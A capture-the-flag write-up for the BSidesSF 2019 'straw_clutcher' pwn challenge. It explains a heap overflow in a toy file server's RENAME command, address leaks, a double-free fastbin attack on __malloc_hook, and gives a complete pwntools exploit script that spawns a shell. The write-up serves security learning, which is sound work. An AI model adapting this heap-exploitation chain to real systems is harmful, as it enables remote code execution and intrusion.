 # BSidesSF 2019 CTF

## straw_clutcher

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 400 | 4 | [merrychap](https://github.com/merrychap)

**Description:** 

> Location - straw-clutcher-717c5694.challenges.bsidessf.net:4321

**Files:**

[straw-clutcher](./straw-clutcher)

## General information

The binary was really crazy for pwn challenge :D

There are a lot of code, but if you spend enough time on it, then it wouldn't be a problem to find the bug. But first things first.

## Reversing the binary

<p align="center">
  <img src="screens/beginning.png">
</p>

So, there is a global buffer for user input which is allocated on a heap. After we input data, it's compared in some obfuscated way with characters. I will not cover reverse part here, because it's not very complicated and you can do it by your own. Most of the code here is different input validations, so this is not very interesting

The binary is kinda file transfer server and there are several actions we can produce (all "files" are memory structures and not the "real" files):

- `PUT [FILENAME] [FILE SIZE]` - creates a file with the specified filename and size. After this, we read data into the created file.

- `RENAME [OLD FILENAME] [NEW FILENAME]` - rename a file

- `DELE [FILENAME]` - delete specified file. It also frees the data that were allocated for this file

- `RETR [FILNAME]` - print file's data

- `TRUNC [FILENAME] [NEW SIZE]` - truncates the size of a specified file.

Okay, you can play now with the server to understand the functionality more deeply.

By the way, files are basically linked-list and each file has a pointer to the previous file structure. Hence, when it iterates through the files, it starts with the last one and goes up to the first.

## Vulnerability

After looking around the code searching for the vuln I found some interesting place in `RENAME` function:

<p align="center">
  <img src="screens/vuln.png">
</p>

First of all, we check `old_name` length and force it can't be longer than `0x1f`. And then the same for `new_name`, but... We check `old_name` again instead of `new_name` length. That's the vuln - __heap overflow__.

Now, let's explore the file structure (I suppose everything should be clear):

```c
struct file_t {
    char filename[0x20];
    unsigned long file_size;
    char *data;
    long free_option; /* clear a chunk via munmap or free */
    struct file_t *prev_file;
};
```

So, by overflowing filename we can overwrite `file_size, `data` and `prev_file` fields. 

By the way, thanks to [iddm](gyiddm@gmail.com) to point me out that free_option is actually present in the structure (previously I wrote that this a dummy structure field and isn't used in the binary, but I obviously was wrong)


## Leaking addresses

First of all, we want to leak some addresses, so let's start with `file_size`. By writing some big number into `file_size` and then calling `RETR` we can leak everything on the heap below the current chunk. Libc address can be leaked by creating unsorted bin chunk below the target chunk and heap addresses can be leaked by just creating some new file below the target. Cool, we have `libc` and `heap` addresses.

## Spawning the shell

I forgot to say that there are some constraints on the filename, namely, `[A-Za-z0-9]+.[A-Za-z0-9]{3}` or something like this.

My main target was overwriting `__malloc_hook` with `one_gadget`, so we need to achieve fastbin attack. To do this, double free will be the best choice. When we delete a file something like this happens:

```c
free(file->data);
free(file);
```

So we can try to create a fake chunk `fake_file` where `fake_file->data` will point to some freed chunk with `0x70` size. Hence, it's double free and fastbin attack can be performed.

Let's consider some `file` structure. To create a fake chunk we can overwrite lsb of `file->prev_file` to point to `file->data` which we control without any constraints. To do this, we need that lsb of `file->data` will satisfy constraints on a filename.

If everything is okay, then we can produce typical fastbin attack with overwriting `__malloc_hook`.

## Exploit

The final exploit is as follows (I added some comments to make it more readable):

```python
from pwn import *


def main():
    libc = ELF('./libc-2.23.so')
    pc = remote('straw-clutcher-717c5694.challenges.bsidessf.net', 4321)

    pc.sendline('PUT AAA.EXE 10')
    pc.send('A' * 10)

    pc.sendline('RENAME AAA.EXE BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.sendline('PUT CCC.EXE 128')
    pc.send('C' * 128)
    pc.sendline('PUT DDD.EXE 10')
    pc.send('D' * 10)

    pc.sendline('DELE CCC.EXE')

    # overwriting file->file_size with 0x4141
    pc.sendline('RETR BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.EAA')
    pc.recvuntil('200 File download started. Prepare to get 16705 bytes')
    data = pc.recvuntil('Data transferred!')
    good_slice = data[100:209]
    
    libc_base = u64(good_slice[-24:-16]) - 0x3c4b78
    __malloc_hook = libc_base + libc.symbols['__malloc_hook']
    __free_hook = libc_base + libc.symbols['__free_hook']
    heap = u64(good_slice[-48:-40])

    log.success('libc base @ ' + hex(libc_base))
    log.success('heap @ ' + hex(heap))
    log.success('__free_hook @ ' + hex(__free_hook))
    log.success('__malloc_hook @ ' + hex(__malloc_hook))

    #################################################
    #################################################

    # creating a fake file structure chunk
    pc.sendline('PUT EEE.EXE {}'.format(0x48))
    pc.send(p64(0x4848482e484848) + p64(0) * 4 + p64(0x68) + \
        p64(heap + 0x250) + p64(0) + p64(heap + 0x190)) # -0x23

    
    # make two freed 0x70 chunks
    pc.sendline('PUT TTT.TTT {}'.format(0x68))
    pc.send('T' * 0x68)
    pc.sendline('PUT KKK.KKK {}'.format(0x68))
    pc.send('K' * 0x68)
    pc.sendline('DELE TTT.TTT')
    pc.sendline('DELE KKK.KKK')

    # overwrite lsb of file->prev_file
    pc.sendline('RENAME EEE.EXE ' + 'E' * 7*8 + 'EEEEE.EXP')
    
    # and clear already freed 0x70 chunk
    pc.sendline('DELE HHH.HHH')

    pc.sendline('PUT LLL.LLL {}'.format(0x68))
    pc.send(p64(__malloc_hook - 0x13) + 'K' * 0x60)
    pc.sendline('PUT MMM.MMM {}'.format(0x68))
    pc.send('M' * 0x68)
    pc.sendline('PUT NNN.NNN {}'.format(0x68))
    pc.send('N' * 0x68)

    one_gadget = 0x4526a

    # allocate file->data above of __malloc_hook
    # and write one_gadget into this
    pc.sendline('PUT OOO.OOO {}'.format(0x68))
    pc.send('AAA' + p64(libc_base + one_gadget) + 'O' * (0x60-3))

    # trigger malloc
    pc.sendline('PUT JJJ.JJJ 8')

    pc.interactive()


if __name__ == '__main__':
    main()
```

After running this exploit we've got:

<p align="center">
  <img src="screens/final_shell.png">
</p>

> Flag: CTF{hoisting_the_flag}

Flag is not really interesting, but the challenge was pretty good!